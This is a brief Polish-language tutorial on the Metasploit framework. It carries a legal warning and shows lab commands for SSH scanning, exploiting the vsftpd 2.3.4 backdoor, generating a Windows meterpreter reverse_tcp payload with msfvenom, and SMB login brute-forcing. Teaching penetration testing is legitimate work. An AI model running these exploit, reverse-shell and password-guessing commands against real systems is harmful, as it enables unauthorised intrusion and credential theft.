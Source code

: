# Metasploit

Metasploit to jeden z najpopularniejszych frameworków do testowania penetracyjnego. Został stworzony w celu odkrywania, eksploatowania i walidowania luk bezpieczeństwa. Wyposażony jest w setki gotowych eksploitów i różnorodne narzędzia, które pozwalają na kompleksową ocenę bezpieczeństwa systemów i sieci.

{% hint style="warning" %}
Korzystanie z Metasploit bez odpowiednich uprawnień jest nielegalne i nieetyczne. Pamiętaj, że narzędzia te są stworzone w celu poprawy bezpieczeństwa, a nie jego łamania.
{% endhint %}

{% embed url="https://www.metasploit.com" %}
Metasploit
{% endembed %}

## Podstawowe funkcje i zastosowania

Poniżej przedstawimy kilka różnych funkcji i zastosowań narzędzia Metasploit.

### Skanowanie

Metasploit umożliwia skanowanie systemów i sieci w poszukiwaniu potencjalnych luk. Na przykład można zeskanować system za pomocą modułu *auxiliary/scanner*:

```bash
msf > use auxiliary/scanner/ssh/ssh_version
msf auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.168.1.0/24
msf auxiliary(scanner/ssh/ssh_version) > run
```

### Eksploatacja

Gdy luka zostanie znaleziona, Metasploit umożliwia jej eksploatację. Poniżej pokazujemy jak eksploatować podatność w usłudze FTP za pomocą modułu *exploit*:

```bash
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.1.2
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit
```

### Tworzenie payloadów

Metasploit oferuje możliwość tworzenia payloadów, które można dostarczyć do celu, aby uzyskać dostęp. Można na przykład utworzyć prosty payload dla systemu Windows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe > payload.exe
```

### Przechwytywanie haseł

Metasploit ma wiele modułów do przechwytywania haseł, które mogą być użyte do zdobycia dalszych dostępów. Można użyć np. modułu *smb_login* do sprawdzenia haseł na podatnych maszynach SMB:

```bash
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(scanner/smb/smb_login) > set RHOSTS 192.168.1.0/24
msf auxiliary(scanner/smb/smb_login) > run
```
